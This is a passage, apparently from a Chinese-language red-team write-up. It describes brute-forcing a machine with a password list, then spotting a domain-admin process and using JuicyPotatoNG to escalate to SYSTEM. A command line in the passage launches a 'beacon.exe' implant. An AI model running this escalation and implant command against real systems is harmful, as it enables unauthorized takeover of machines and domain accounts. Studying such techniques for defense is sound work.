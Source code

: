 成功通过密码本组合爆破出另一台机器

![image-20220929151450411.png](assets/1698900874-901efd4d78ee4fd96d0588a9de81319c.png)

#### 高版本机器提权

查看进程发现上面登着域管进程，低权限先提个权

使用下面项目直接到system

[https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

`shell JuicyPotatoNG.exe -t \* -p "beacon.exe"`

![image-20221010151910751.png](assets/1698900874-7c716888dcf762305a855a69ec1f72a7.png)

